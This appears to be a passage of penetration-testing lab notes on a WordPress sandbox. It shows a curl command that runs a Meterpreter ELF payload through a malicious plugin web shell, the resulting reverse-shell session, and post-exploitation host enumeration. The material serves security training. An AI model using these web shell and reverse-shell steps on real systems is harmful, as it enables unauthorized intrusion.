    - In the msfconsole command above, we are having Metasploit start **quietly (-q)** and **immediately configure the payload handler via the -x option**, passing the same payload settings we used when generating the shell.
   
-    it’s finally time to obtain a reverse shell. This can be done by executing the **shell.elf** file via the malicious WordPress plugin we installed previously.

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.ph  
p?cmd=./shell.elf
```

```bash
[*] Sending stage (985320 bytes) to 10.11.1.250  
[*] Meterpreter session 1 opened (10.11.0.4:443 -> 10.11.1.250:53768) at 19:54:41  
meterpreter > shell  
Process 9629 created.  
Channel 1 created.  
whoami  
www-data  
exit  
meterpreter >
```

-    move on to post-exploitation enumeration.

# Summary

- gather some information about the database credentials through enumeration

-----------------------------------------

-----------------------------------------

-    gather some basic information about the host such as network configuration, hostname,OS version, etc

```bash
meterpreter > shell  
Process 6667 created.  
Channel 3 created.  
ifconfig  
ens160 Link encap:Ethernet HWaddr 00:50:56:8a:82:85  
 inet addr:10.4.4.10 Bcast:10.4.4.255 Mask:255.255.255.0  
 inet6 addr: fe80::250:56ff:fe8a:8285/64 Scope:Link  
 UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1  
  RX packets:29154 errors:0 dropped:22 overruns:0 frame:0  
 TX packets:176526 errors:0 dropped:0 overruns:0 carrier:0  
 collisions:0 txqueuelen:1000  
 RX bytes:8327519 (8.3 MB) TX bytes:13590061 (13.5 MB)  
...  
hostname  
ajla  
cat /etc/issue  
Ubuntu 16.04 LTS \n \l  
cat /proc/version  
Linux version 4.4.0-21-generic (buildd@lgw01-21) (gcc version 5.3.1 20160413 (Ubuntu 5  
.3.1-14ubuntu2) ) #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016
```
